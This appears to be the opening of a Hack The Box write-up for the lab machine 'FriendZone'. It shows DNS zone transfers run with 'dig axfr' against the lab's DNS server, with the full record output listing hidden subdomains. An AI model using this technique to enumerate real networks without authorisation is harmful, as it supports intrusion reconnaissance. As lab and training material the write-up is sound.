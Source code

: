 # 10 - FriendZone


# index.html
![](vx_images/2712136598909.png)



We discover that there are friendzoneportal.red and friendzone.red(nmap) domain names. Are there any subdomains? Luckily there is also a dns server on the box we can try zone transfer to  steal dns records. This is usually disabled in real word scenarios to avoid certain attacks.


# DNS Zone Transfer

# friendzone.red
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/friendzone]
└──╼ $ dig axfr friendzone.red @10.10.10.123

; <<>> DiG 9.16.15-Debian <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 68 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Sat Jul 03 13:32:26 BST 2021
;; XFR size: 8 records (messages 1, bytes 289)
```
# friendzoneportal.red
```
┌─[user@parrot]─[10.10.14.9]─[~/htb/friendzone]
└──╼ $ dig axfr friendzoneportal.red @10.10.10.123

; <<>> DiG 9.16.15-Debian <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 72 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Sat Jul 03 13:33:14 BST 2021
;; XFR size: 9 records (messages 1, bytes 309)
```